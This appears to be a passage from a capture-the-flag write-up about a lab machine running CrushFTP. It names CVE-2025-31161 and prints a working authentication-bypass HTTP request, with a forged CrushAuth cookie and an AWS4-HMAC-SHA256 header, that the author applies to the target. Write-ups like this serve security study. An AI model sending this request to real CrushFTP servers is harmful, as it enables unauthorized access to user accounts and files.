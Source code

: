 Found some interesting vhost. 

then i go to [http://ftp.soulmate.htb](http://ftp.soulmate.htb) this one redirected to this page

![image.png](image%202.png)

### Let’s explore what is CrushFTP

**CRUSHFTP IS A ROBUST FILE TRANSFER SERVER THAT MAKES IT EASY TO SETUP SECURE CONNECTIONS WITH YOUR USERS.**

## Target is vulnerable to **CVE-2025-31161**

# **Proof of concept**

Since the technical details of the proof of concept are already public and available, we have no concerns discussing the inner workings of our recreated proof-of-concept.

As stated, it boils down to just an HTTP request:

```bash
**GET /WebInterface/function/?command=getUserList&serverGroup=MainUsers&c2f=1111
HTTP/1.1
Cookie: CrushAuth=1111111111_111111111111111111111111111111111
Authorization: AWS4-HMAC-SHA256** 
```

Apply this to the target
